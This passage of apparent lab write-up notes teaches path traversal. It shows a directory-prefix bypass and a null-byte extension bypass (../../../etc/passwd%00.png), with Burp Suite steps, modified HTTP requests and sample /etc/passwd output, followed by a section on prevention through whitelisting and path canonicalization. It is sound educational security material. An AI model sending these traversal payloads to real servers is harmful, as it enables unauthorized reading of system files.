
The application returns the contents of:

```text
/etc/passwd
```

Example:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```


## Step 5: Lab Solved

Successfully retrieving:

```text
/etc/passwd
```

solves the lab.




# Why This Works

Some applications validate that files start with:

```text
/var/www/images/
```

and assume they are safe.

The payload begins with the expected directory:

```text
/var/www/images/
```

but then traverses back up the directory tree:

```text
../../../
```

Result:

```text
/var/www/images/../../../etc/passwd
```

Normalizes to:

```text
/etc/passwd
```

## Path Resolution

### Supplied Path

```text
/var/www/images/../../../etc/passwd
```

### Directory Traversal

```text
/var/www/images/
            ↑
           ../
            ↑
           ../
            ↑
           ../
```

### Final Path

```text
/etc/passwd
```

# Request Example

### Original Request

```http
GET /image?filename=218.png HTTP/2
```

### Modified Request

```http
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/2
```
---

# Topic: Bypassing File Extension Validation Using Null Bytes

## The Problem

Some applications try to prevent path traversal by requiring files to end with a specific extension.

Example:

```text id="x8n2qa"
.png
```

The developer wants users to access only image files.


# Normal Request

```text id="5bnr7m"
filename=218.png
```

Validation:

```text id="j8v4pk"
Ends with .png ?
```

Result:

```text id="r5z7tn"
YES ✓
```

The image is returned.


# Attacker's Goal

Read:

```text id="z3tq9v"
/etc/passwd
```

But the application requires:

```text id="ewr4mj"
.png
```

So this fails:

```text id="h6v1xa"
filename=../../../etc/passwd
```

because:

```text id="6pvj3d"
Does not end with .png
```


# What is a Null Byte?

A **null byte** is represented as:

```text id="0v4r8y"
%00
```

It represents the end of a string in many older programming languages and APIs.


# Bypass Technique

Attacker sends:

```text id="m7x2kp"
filename=../../../etc/passwd%00.png
```

Application sees:

```text id="6qv5jb"
../../../etc/passwd%00.png
```

and validates:

```text id="u9t3lw"
Ends with .png ? ✓
```


# What Happens Internally?

The null byte:

```text id="q4n8zh"
%00
```

may terminate the string.

The filesystem API effectively receives:

```text id="4w6jrp"
../../../etc/passwd
```

and ignores:

```text id="t8p2mn"
.png
```


# Visualization

### User Input

```text id="n3k5vc"
../../../etc/passwd%00.png
```

### Application Check

```text id="4f7rqd"
Ends with .png ✓
```

### Null Byte Processing

```text id="7j9vxm"
../../../etc/passwd
^
String ends here
```

### Actual File Read

```text id="y2m6tp"
/etc/passwd
```

# Why Does This Work?

The application validates:

```text id="k8r3bz"
Input String
```

but the operating system or underlying API processes:

```text id="z6n1fq"
String Before %00
```

The two interpretations are different.


# Example Attack Flow

```text id="s5v8qh"
Attacker
     ↓
../../../etc/passwd%00.png
     ↓
Application
Checks .png ✓
     ↓
Null Byte Terminates String
     ↓
Filesystem Reads
/etc/passwd
```

# Modern Reality

 Important:

Most modern languages and frameworks now handle null bytes safely and reject this attack.

However:

* Older applications
* Legacy code
* Certain native APIs

may still be vulnerable.

This is why null byte injection remains an important concept for learning path traversal.

---

# Path Traversal Using Null Byte Injection



## Step 1: Intercept a Product Image Request

1. Open any product page.
2. Click on a product image.
3. In Burp Suite, go to:

```text
Proxy > HTTP History
```

4. Locate the image request.

Example:

```http
GET /image?filename=218.png HTTP/2
```

## Step 2: Modify the Filename Parameter

Replace:

```http
filename=218.png
```

with:

```http
filename=../../../etc/passwd%00.png
```

Modified request:

```http
GET /image?filename=../../../etc/passwd%00.png HTTP/2
```

## Step 3: Send the Request

1. Forward the modified request.
2. Observe the response.


## Step 4: Read the File Contents

The application returns the contents of:

```text
/etc/passwd
```

Example:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```


## Step 5: Lab Solved

Successfully retrieving:

```text
/etc/passwd
```

solves the lab.


# Why This Works

Some applications require filenames to end with:

```text
.png
```

For example:

```text
filename=../../../etc/passwd.png
```

would fail because:

```text
/etc/passwd.png
```

does not exist.


## Null Byte Injection

Payload:

```text
../../../etc/passwd%00.png
```

Where:

```text
%00 = Null Byte
```

The application sees:

```text
../../../etc/passwd%00.png
```

but the underlying file operation may stop processing at:

```text
%00
```

Effectively becoming:

```text
../../../etc/passwd
```

while bypassing the `.png` validation.


## Payload Breakdown

### Supplied Value

```text
../../../etc/passwd%00.png
```

### Application Check

```text
Ends with .png ✔
```

### File System Interpretation

```text
../../../etc/passwd
```

### Final File Accessed

```text
/etc/passwd
```


# Request Example

### Original Request

```http
GET /image?filename=218.png HTTP/2
```

### Modified Request

```http
GET /image?filename=../../../etc/passwd%00.png HTTP/2
```

---

# Topic: How to Prevent Path Traversal Attacks

## Main Idea

The best defense is:

```text id="a1b2c3"
Never let users directly control file paths.
```

Instead of:

```text id="d4e5f6"
/loadImage?filename=user_input
```

use predefined file IDs or filenames.

# Best Solution: Avoid User-Controlled Paths

### Vulnerable

```text id="g7h8i9"
filename=../../../etc/passwd
```

The user controls the path.


### Safer Design

```text id="j1k2l3"
imageID=218
```

The application maps:

```text id="m4n5o6"
218 → 218.png
219 → 219.png
220 → 220.png
```

The user never provides a filesystem path.

# If User Input Must Be Used

Use **two layers of defense**.


# Defense 1: Validate User Input

Accept only expected values.

### Best Option: Whitelist

Allow only known filenames:

```text id="p7q8r9"
218.png
219.png
220.png
```

Everything else:

```text id="s1t2u3"
Rejected
```


### Alternative: Character Validation

Allow only:

```text id="v4w5x6"
A-Z
a-z
0-9
```

Example:

```text id="y7z8a9"
218.png
```

Allowed.


Example:

```text id="b1c2d3"
../../../etc/passwd
```

Rejected because it contains:

```text id="e4f5g6"
/
.
```


# Defense 2: Canonicalize the Path

Even after validation, resolve the path and verify it remains inside the allowed directory.


### Base Directory

```text id="h7i8j9"
/var/www/images
```

### User Input

```text id="k1l2m3"
../../../etc/passwd
```

Application creates:

```text id="n4o5p6"
/var/www/images/../../../etc/passwd
```

### Canonicalization

The operating system resolves:

```text id="q7r8s9"
/etc/passwd
```

Now check:

```text id="t1u2v3"
Does /etc/passwd start with
/var/www/images ?
```

Result:

```text id="w4x5y6"
NO ✗
```

Block the request.


# Java Example Explained

Code:

```java id="z7a8b9"
File file = new File(BASE_DIRECTORY, userInput);

if (file.getCanonicalPath().startsWith(BASE_DIRECTORY)) {
    // process file
}
```

## Step-by-Step

### Step 1

Create file path:

```text id="c1d2e3"
BASE_DIRECTORY + userInput
```

Example:

```text id="f4g5h6"
/var/www/images/../../../etc/passwd
```

### Step 2

Get Canonical Path

```text id="i7j8k9"
file.getCanonicalPath()
```

resolves:

```text id="l1m2n3"
/etc/passwd
```


### Step 3

Check Location

```text id="o4p5q6"
startsWith(BASE_DIRECTORY)
```

Check:

```text id="r7s8t9"
/etc/passwd
```

starts with:

```text id="u1v2w3"
/var/www/images
```

Result:

```text id="x4y5z6"
False
```

Access denied.


# Secure Flow

```text id="aa11bb"
User Input
      ↓
Input Validation
      ↓
Create Path
      ↓
Canonicalize Path
      ↓
Verify Path Is Inside
Allowed Directory
      ↓
Access Granted
```

# Why Multiple Defenses?

A single defense can fail.

For example:

```text id="cc22dd"
../
```

might be blocked,

but:

```text id="ee33ff"
%2e%2e%2f
```

could bypass it.

Using:

1. Input validation
2. Canonical path verification

provides stronger protection.

---
